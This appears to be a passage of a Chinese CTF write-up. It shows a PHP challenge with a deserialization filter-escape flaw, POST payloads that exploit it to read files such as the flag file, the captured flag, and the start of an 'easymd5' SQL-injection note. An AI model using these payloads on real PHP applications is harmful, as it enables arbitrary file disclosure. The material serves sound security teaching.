 

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
extract($_POST);
$_SESSION['img'] = base64_encode('guest_img.png');
$serialize_info = filter(serialize($_SESSION));
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
```

我们利用filter来吞掉一些字符,从而让我们任意反序列化

`POST: _SESSION[abc]=flagflagphpphpphp&_SESSION[aaa]=;s:3:"img";s:12:"aW5kZXgucGhw";s:1:"a";s:1:"a";}`

我们分析一下为什么是这个payload:

...

在phpinfo中找到

| config | Local Value | Mastr Value |
| ---------------- | ------------- | ------------- |
| auto_append_file | d0g3_f1ag.php | d0g3_f1ag.php |

```
_SESSION[abc]=flagflagphpphpphp&_SESSION[aaa]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}
_SESSION[abc]=flagflagphpphpphp&_SESSION[aaa]=;s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"a";s:1:"a";}
```



```php

<?php

$flag = 'flag in /d0g3_fllllllag';

?>
```



`flag{62b16099-c29d-499a-9dde-e54bf2985b31}`

## easymd5

```
select * from 'admin' where password=md5($pass,true)
```

md5($var,true)会返回一个原始的二进制数据，某些数据会被当成字符串
